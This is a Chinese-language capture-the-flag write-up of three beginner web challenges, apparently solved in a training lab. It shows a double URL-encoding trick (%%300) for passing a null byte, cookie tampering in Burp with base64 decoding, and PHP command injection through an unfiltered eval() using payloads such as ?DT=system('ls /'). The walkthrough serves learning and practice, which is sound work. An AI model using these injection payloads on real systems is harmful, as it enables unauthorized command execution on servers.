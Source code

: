 

### week1复现

#### A Dark Room

直接f12在源代码中找到答案

![](https://s2.loli.net/2024/11/04/8NQeoMqiVdyhtjF.png)

#### HTTP是什么呀

进入后发现如下内容

![](https://s2.loli.net/2024/11/04/aULcrV8FpOGR51Z.png)

##### 需要注意的参数

1. get传输时，网页会自动进行一次url解码，所以我们需要将%00进行二次url加密，对0加密后变成%30，即输入%%300
2. cookie同样可以传参
   在burp进行相应修改
   ![](https://s2.loli.net/2024/11/04/AjdYPuRBnfO2xDM.png)
   得到这一串字符。
   根据末尾的==猜测可能是base64加密
   使用burp自带的解密工具得到
   ![](https://s2.loli.net/2024/11/04/cbMxElDSZdnOghz.png)  

#### 喵喵喵

进入后发现如下代码
![](https://s2.loli.net/2024/11/04/a5tXgxbijTUnlPF.png)
发现重点函数eval()
测试之后发现没有屏蔽过滤词

```
？DT=system('ls')
```

没有发现相关文件，于是直接查询根目录

```
？DT=system('ls /')
```

![](https://s2.loli.net/2024/11/04/VbFdGR2ZglLOwy1.png)
发现flag文件
选择查看flag

```
？DT=system('ls /flag')
```

得到相关文件
![](https://s2.loli.net/2024/11/04/cfysUoCxbj3PhNY.png)
